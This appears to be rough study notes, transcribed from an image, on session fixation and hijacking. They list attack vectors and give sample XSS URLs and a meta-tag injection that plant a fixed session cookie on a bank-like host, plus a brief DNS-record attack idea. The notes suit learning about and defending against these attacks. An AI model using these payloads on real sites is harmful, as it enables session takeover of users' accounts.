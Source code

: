 session hjacking, session fixation(start a session using the sessionid provided by the attacker), predication, brute-force
 session IDs in URLs, packet sniffing, physical access to the device
### session leaking


### method A: cross-site script attack

Presisten cookie
client-side script that sets a cookie on a browser. `http://online.worldbank.com/<script>document.cookie="__sessionid=123;%20Expires=Friday,%201-Jan-2099&2000:00:00%20GMT"</script>`
Domain cookie
`http://online.worldbank.com/<script>document.cookie="__sessionid=123;domain=.worldbank.com"</script>`

#### method B: Issuing a cookie using <meat> tag with Set-Cookie attribute

`<meta http-equiv=Set-Cookie content="sessionid=1234">`
> meta tag
> Permitted content	None; it is a void element.
> Tag omission:Must have a start tag and must not have an end tag.

#### meta tag injection

`http://online.worldbank.dom/<meta%20http-equiv=Set-Cookie%20content="sessionid=234;%20Expires=Friday,%201-Jan-2010%2000:00:00%20GMT”>.idc`


#### DNS ATTACK

adds a record to the user’s DNS server, mapping the hostname hack.worldbank.dom to her web server’s IP address


